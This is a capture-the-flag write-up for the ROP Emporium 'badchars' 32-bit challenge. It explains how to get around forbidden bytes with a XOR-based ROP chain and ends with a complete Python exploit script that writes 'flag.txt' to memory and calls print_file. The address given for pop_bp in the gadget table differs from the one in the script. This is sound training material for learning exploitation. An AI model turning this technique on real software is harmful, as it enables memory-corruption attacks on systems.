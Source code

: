 # badchars
The challenge is available [here](https://ropemporium.com/challenge/badchars.html).

## Black-Box Test
The current challenge is actually identical to the previous one, except for the fact that there are some characters we cannot use in the ROP chain. The instructions tell us that the program reveals what those characters are, so let's get started.

```
./badchars32
```
![](./0.png)

So, we are prohibited from using the characters `"x"`, `"g"`, `"a"`, and `"."`. Let's try to see what happens to them when they enter the stack by using all four as a return address (which will obviously crash the program, and when we check where it failed, we will expect to see these characters)

```
perl -e 'print "X"x44 . "xga."' | ./badchars32
```
```
sudo dmesg -k | tail -2
```
![](./1.png)

This means that each of the forbidden characters gets converted to `\xeb` before being written to the stack, and we will need to bypass this.

## In-depth research
This challenge is indeed almost identical to the previous one, so there's no need for an extensive presentation here. I will show how to find the components we need for the ROP chain and the idea I'm going to use.

Let's start by finding where `print_file` is located:
```
rabin2 -i badchars32
```
![](./2.png)

Again, we will use the `.data` section to store the string "flag.txt."

```
readelf -S badchars32 | grep -e '[.]data'
```
![](./3.png)

The more artistic part of this challenge was finding the suitable gadgets and thinking of an idea based on the conditions. Still, there are some general guidelines we already know: we need gadgets that will `pop` values into registers and gadgets that will `mov` values from registers to memory. There also needs to be a correspondence between the registers, especially for the one used to hold the address in the `mov-gadget`. Additionally, we were given a hint to consider using the `XOR` operation. After some research and thought, I found the following gadgets in the picture. Right after this, I will present the idea for how to use them.

Note: Before searching for the gadgets, you need to update Ropper with the forbidden bytes. This is done in Ropper using the command `badbytes`.

```
python3 ~/ropper/Ropper.py
```
```
file badchars32
```
```
badbytes 7867612e
```
```
search pop
```
```
search /1/ mov [%], %
```
```
search /1/ xor
```
![](./4.png)

The general idea is that the string `"flag.txt"` will be entered in parts (like previous challenge). The difference this time is that the characters `"a"`, `"g"`, `"."` and `"x"` will not be entered directly; instead, they will be entered as different characters, such that when we apply `XOR` with the value `0x01` (just for convenience), we will get the corresponding letter. For example, if we input `"AAA\x60"` and then apply `\x01 ^ \x60`, we get `\x61 (='a')` (So `"AAA\x60"` -> `"AAAa"`). After we handle all the necessary indexes in the current part of the string, we will input the next part in the same way.

From the gadgets we've collected, the usage of the registers is as follows:

* `EBP` will hold the address of the byte on which we will perform `XOR`.
* `EBX` will always hold the value `0x01` in the low byte (`BL`) for `XOR`.
* `ESI` will hold the characters of the string while transitioning to the `.data` section.
* `EDI` will hold the address of the `.data` section where we will transfer the characters of the string.

To summarize:
* To create `"flag"`:
    * We will input `"fl\x60f"`
    * Perform `0x01` XOR `0x60` => `"a"`
    * Perform `0x01` XOR `"f"` => `"g"`
* To create `".txt"`:
    * We will input `"\x2ftyt"`
    * Perform `0x01` XOR `0x2f` => `"."`
    * Perform `0x01` XOR `"y"` => `"x"`

And that was the idea. Now let's proceed to the complete solution.

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                       |
|---------------|-----------------|------------|-------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                               |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed. |
| pop_bx        | Gadget          | 0x0804839d | pop ebx; ret;                                                     |
| pop_bp        | Gadget          | 0x080585bb | pop ebp; ret;                                                     |
| pop_si_di_bp  | Gadget          | 0x080485b9 | pop esi; pop edi; pop ebp; ret;                                   |
| mov2memory    | Gadget          | 0x0804854f | mov dword ptr [edi], esi; ret;                                    |
| xor2memory    | Gadget          | 0x08048547 | xor byte ptr [ebp], bl; ret;                                      |

And the next table describes the ROP chain itself:

| No | Chain Link                                                  | Note                                                                                        |
|----|-------------------------------------------------------------|---------------------------------------------------------------------------------------------|
| 1  | 44 garbage bytes                                            |                                                                                             |
| 2  | pop_bx, 0x01010101                                          | The lower byte will be used later for XOR operations.                                       |
| 3  | pop_si_di_bp, `"fl\x60f"`, memory4string, memory4string+2   | Each update of the EBP register sets it to the address of the next byte that will be XORed. |
| 4  | mov2memory                                                  | After this operation, the string will be `"fl\x60f"`.                                       |
| 5  | xor2memory                                                  | After this operation, the string will be `"flaf"`.                                          |
| 6  | pop_bp, memory4string+3                                     |                                                                                             |
| 7  | xor2memory                                                  | After this operation, the string will be `"flag"`.                                          |
| 8  | pop_si_di_bp, `"\x2ftyt"`, memory4string+4, memory4string+4 |                                                                                             |
| 9  | mov2memory                                                  | After this operation, the string will be `"flag\x2ftyt"`.                                   |
| 10 | xor2memory                                                  | After this operation, the string will be `"flag.tyt"`.                                      |
| 11 | pop_bp, memory4string+6                                     |                                                                                             |
| 12 | xor2memory                                                  | After this operation, the string will be `"flag.txt"`.                                      |
| 13 | print_file, "XXXX", memory4string                           |                                                                                             |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer   = b"X"*44

print_file    = little_endian(0x080483d0)

memory4string = 0x0804a018

pop_bx        = little_endian(0x0804839d)
pop_bp        = little_endian(0x080485bb)
pop_si_di_bp  = little_endian(0x080485b9)
mov2memory    = little_endian(0x0804854f)
xor2memory    = little_endian(0x08048547) 

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += pop_bx + b"\x01\x01\x01\x01"
ROP_Chain += pop_si_di_bp + b"fl\x60f" + little_endian(memory4string) + little_endian(memory4string+2)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+3)
ROP_Chain += xor2memory
ROP_Chain += pop_si_di_bp + b"\x2ftyt" + little_endian(memory4string+4) + little_endian(memory4string+4)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+6)
ROP_Chain += xor2memory
ROP_Chain += print_file + b"XXXX" + little_endian(memory4string)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./badchars32
```
![](./5.png)

Heyda!!!
